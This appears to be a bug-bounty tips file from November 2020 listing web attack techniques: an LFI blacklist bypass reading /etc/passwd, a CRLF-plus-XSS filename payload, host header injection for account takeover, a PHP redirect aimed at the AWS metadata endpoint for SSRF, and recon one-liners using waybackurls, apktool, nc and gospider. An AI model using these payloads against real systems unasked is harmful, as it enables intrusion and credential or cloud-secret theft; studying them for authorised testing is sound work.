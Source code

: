 # Bug Bounty Tips File -4
📅 06-Nov-2020
## Browser-Based application LFI
`file:///etc/passwd` blacklisted? Use `"view-source:file:///etc/passwd"`
"view-source" is often forgotten by developers in blacklists.
## bypassing file content restrictions:
in some cases you can do a crlf injection via filename
`x.png%22%0d%0a%0d%0a%0d%0a<script>alert(1)</script>`
***this will cause Content-Disposition to throw its content into the file***

📅 10-Nov-2020
## Race Condition
***https://hackerone.com/reports/994051***
## Host Header Injection
It was blocking all the urls except for the websites hosted with the same provider. In this case Fastly. 
```js
host : http://bbc.com
```
**worked**                    
Now attacker can register a domain with Fastly and use HHI to ATO using forgot password ! 

📅 11-Nov-2020
## SSRF Bypass via 303 redirect
*Host the following code in your server and use your server ip to ping at where you feel ssrf is found*
```php
<?php header('Location: http://169.254.169.254/latest/meta-data/', TRUE, 303); ?>
```
***Note :*** This code is to fetch aws metadata you can edit the location to your target location. For more info **https://medium.com/techfenix/ssrf-server-side-request-forgery-worth-4913-my-highest-bounty-ever-7d733bb368cb** 

📅 12-Nov-2020
## Browser-Based application LFI
`file:///etc/passwd` blacklisted? Use `view-source:file:///etc/passwd`
"view-source" is often forgotten by developers in blacklists.

📅 16-Nov-2020
## Check for open redirect,ssrf with waybackurls
```sh
waybackurls target[.]com | grep ‘http%\|https%'
```
***Note : You can replace the URLs you find with yours and hope for an open redirect,ssrf or something else. You can grep out analytic stuff with grep -v. If your target has something with OAuth with a redirect_uri target/* that's an easy ATO***
## Searching for endpoints, by apks
```sh
apktool d app.apk -o uberApk;grep -Phro "(https?://)[\w\.-/]+[\"'\`]" uberApk/ | sed 's#"##g' | anew | grep -v "w3\|android\|github\|http://schemas.android\|google\|http://goo.gl"
```
## Fuzz all js files from the target
```sh
xargs -P 500 -a domain -I@ sh -c 'nc -w1 -z -v @ 443 2>/dev/null && echo @' | xargs -I@ -P10 sh -c 'gospider -a -s "https://@" -d 2 | grep -Eo "(http|https)://[^/\"].*\.js+" | sed "s#\] \- #\n#g" | anew'
```
